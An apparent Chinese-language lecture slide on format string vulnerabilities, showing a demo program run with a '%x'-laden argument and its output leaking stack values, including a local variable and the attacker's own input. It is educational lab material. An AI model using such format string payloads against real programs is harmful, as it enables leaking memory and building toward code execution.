

# 读取栈上数据

./formatstring “aaaa %x %x %x %x %x %x %x %x”
执行结果如下：
# buffer (66): aaaa f0b0ff bffff05e 1 c2 bffff154 bffff05e abab 61616161
# x is 43947/0xabab (@ 0xbffff034)
结果表明：
打印输出了x的值，即0xabab
打印输出了用户输入argv的值，即aaaa(0x61616161)
所以，如果人为恶意构造特定的输入格式化字符串，就能让snprintf打印输出一些栈上的重要数据。